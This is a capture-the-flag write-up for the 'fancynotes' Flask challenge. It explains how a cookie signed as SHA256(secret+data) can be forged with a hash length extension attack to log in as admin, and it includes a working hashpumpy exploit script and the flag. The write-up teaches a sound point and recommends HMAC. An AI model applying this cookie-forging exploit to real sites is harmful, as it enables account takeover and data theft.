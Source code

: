 # fancynotes

Categories: Web, Crypto, Warmup

Description:
> Hello my friend, I need your help!
> As you know, in Italy food is very important and I'm not good at it... but I want to surprise my parents with a special recipe.
> I asked Marco Giordano for an advice, he is very good, but he didn't want to reveal his secrets...
> I know he saves his recipes on [Fancy Notes](https://fancynotes.m0lecon.fans/), find a way to steal them.
> 
> Author: @RxThorn
> 
> [Source code](https://ctf.m0lecon.it/attachments/391035157d504163961bb2d526b36eb6/fancynotes.zip)

**Tags:** Hash Length Extension SHA, Cookies, Authentication, Flask

## Takeaways

* Hash Length extension attack
* Logging with flask:
    ```python
    # In __init__.py where the app is created:
    app.logger.setLevel(logging.DEBUG)

    # In any other python file (e.g. routes.py):
    from flask import current_app as app

    app.logger.debug('Foobar')
    ```
 * Don't implement the crypto yourself. If you want to sign data, then use an HMAC instead of the scheme used in this challenge!

## Solution

Upon vising the website we are presented with the following page.

![index.png](writeup-resources/index.png)

It is a simple web app where you register, and then you login, and you can make notes.

![create-note.png](writeup-resources/create-note.png)             |  ![notes.png](writeup-resources/notes.png)
:-------------------------:|:-------------------------:

So, let's check the source code to see how we can get the flag.

```python
def init_db(db):
    username = "admin"
    password = random_string(20)

    if User.query.filter_by(username=username).count() > 0:
        return

    user = User(username=username, password=hashlib.sha256(
        password.encode()).hexdigest(), locale='en'
    )
    note = Note(title="flag", body=os.environ.get("FLAG"))
    user.notes.append(note)
    db.session.add(user)
    db.session.commit()
```

So, as we can see, we have to login as `admin` in order to access their notes and get the flag.

The bug lies in the user authentication. When a request arrives, we first check if the user has authenticated

```python
@app.route('/notes', methods=['POST', 'GET'])
def notes():
    user = get_user()
    if not user:
        return redirect("/login")
def get_user():
    if not 'user' in request.cookies:
        return None
    # ... reconstruct user from cookie #
    return user
```

So, let's check how the `user` cookie is created

```python
@app.route('/login', methods=['POST', 'GET'])
def login():
    if request.method == 'POST':
        response = make_response(redirect("/notes"))
        response.set_cookie('user', generate_cookie(user))
        return response

def generate_cookie(user):
    SECRET_KEY = os.environ.get("SECRET_KEY")
    user_string = deserialize_user(user)
    signature_string = hashlib.sha256(
        (SECRET_KEY + user_string).encode('raw_unicode_escape')).hexdigest()
    cookie = base64.b64encode(
        (f'{user_string}|{signature_string}').encode('raw_unicode_escape')).decode()
    return cookie

def deserialize_user(user):
    values = []
    for k in ["username", "locale"]:
        values.append(f'{k}={user.__dict__[k]}')
    return ','.join(values)
```

So, as an example:

![login.png](writeup-resources/login.png)

`user=dXNlcm5hbWU9ZmFuZSxsb2NhbGU9ZW58Yjg0ZTkxZmU4ZDNmOTkyYmFlYWQ1OGRhODEzYjg0ZjNmYjcxZDg4MzI3ZTEzNDVjY2QwMWRkNmIyODQwYTI2YQ==`

And the value base64-decodes to:

`username=fane,locale=en|b84e91fe8d3f992baead58da813b84f3fb71d88327e1345ccd01dd6b2840a26a`

So, `user_string="username=fane,locale=en"` and `signature_string` is the hash of a secret key concatenated with the `user_string`.

Now, let's check how the server reconstructs the user information from the cookie:

```python
@app.route('/notes', methods=['POST', 'GET'])
def notes():
    user = get_user()
    if not user:
        return redirect("/login")

def get_user():
    if not 'user' in request.cookies:
        return None

    SECRET_KEY = os.environ.get("SECRET_KEY")
    cookie = base64.b64decode(request.cookies.get('user')).decode('raw_unicode_escape')
    assert len(cookie.split('|')) == 2
    user_string = cookie.split('|')[0]
    signature_string = cookie.split('|')[1]

    if hashlib.sha256((SECRET_KEY + user_string).encode('raw_unicode_escape')).hexdigest() != signature_string:
        print("nope")
        return None

    user = serialize_user(user_string)
    return user
```

The server re-computes the hash from the `user_string` sent and its secret, and compares it with the provided hash to determine the integrity of the cookie.

SHA256 is vulnerable to Hash length extension attacks: Given `H(msg1)` and the length of `msg1`, we can compute `H(msg1 || msg2)` with an attacker controlled `msg2`. So, we partially know `msg1` and we can append stuff to the `user_string`, so we also control `msg2`. But, how about the length of `msg1`? We do not know the length of the `SECRET_KEY`. We can brute-force it as it shouldn't be reasonably anything longer than 256 characters (and that is an overapproximation!).

So, we can affect `user_string` and generate spoofed signatures. But how can we abuse this? Let's take a closer look at how the `user` object is generated from the serialized data

```python
def serialize_user(user_string):
    user = dict()
    for kv in user_string.split(','):
        k = kv.split('=')[0]
        v = kv.split('=')[1]
        user[k] = v
    return user
```

Remember the example `user_string="username=fane,locale=en"`. The `serialize_user()` function will iterate over the key-value pairs in the string and set them. We can add another `,username=admin` key-pair to overwrite the previous value and set our username to admin. This will escalate our privileges to the `admin` user.

So, let's write our exploit:

```python
# cookie `user` value 
# username=fane,locale=en|b84e91fe8d3f992baead58da813b84f3fb71d88327e1345ccd01dd6b2840a26a
cookie = "dXNlcm5hbWU9ZmFuZSxsb2NhbGU9ZW58Yjg0ZTkxZmU4ZDNmOTkyYmFlYWQ1OGRhODEzYjg0ZjNmYjcxZDg4MzI3ZTEzNDVjY2QwMWRkNmIyODQwYTI2YQ=="
cookie = base64.b64decode(cookie).decode('ascii')

user_string, signature_str = cookie.split('|')
Hmessage1 = signature_str
message1_length = 1

message2 = ',username=admin'
while message1_length < 256:
    new_signature, new_msg = hashpumpy.hashpump(signature_str, user_string, message2, message1_length)

    new_cookie = new_msg + b'|' + bytes(new_signature, encoding='utf-8')
    new_cookie = base64.b64encode(new_cookie).decode('ascii')

    s = requests.Session()
    cookie_obj = requests.cookies.create_cookie(
        name="user", value=new_cookie
    )
    s.cookies.set_cookie(cookie_obj)

    r = s.get('http://127.0.0.1:5000/notes', verify=False, allow_redirects=False)
    print(r.text)
    if 'admin' in r.text:
        flag = re.search(r'ptm{.+}', r.text).group(0)
        break

    message1_length += 1

print("Logged in!")
print("Message1 length: " + str(message1_length))
print("user=" + new_cookie)
print("Flag: " + flag)
```

And we get the flag

`ptm{pleaseD0NOTUseCr3am1nCarbon4r4!}`
